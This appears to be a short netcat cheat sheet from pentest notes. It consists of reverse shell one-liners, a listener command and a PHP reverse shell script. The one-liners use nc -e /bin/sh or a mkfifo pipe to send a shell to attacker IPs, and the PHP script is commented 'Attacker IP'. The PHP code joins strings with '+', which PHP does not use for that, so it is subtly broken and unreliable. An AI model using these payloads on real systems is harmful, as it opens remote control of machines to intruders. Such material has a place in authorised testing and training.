# Netcat

## Generic reverse shell
nc 10.10.14.36 4444 -e /bin/sh

## Listener
nc -lnvp 4444

## Generic mkfifo reverse shell
```
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f|/bin/sh -i 2>&1 | nc 10.11.8.219 4444 >/tmp/f
```
## PHP mkfifo reverse shell
```php
<?php
    // Attacker IP
    $lhost = '10.0.0.1';
    // Attacker port
    $lport = '4444';
    // Directory on victim to mkfifo netcat
    $rdir = '/tmp/f';
    echo 'Running';
    // Payload
    system('rm '+$rdir+';mkfifo '+$rdir+';cat '+$rdir+'|/bin/sh -i 2>&1|nc '+$lhost+' '+$lport+' >'+$rdir+'');
    echo ' ... Done'; 
?>
```
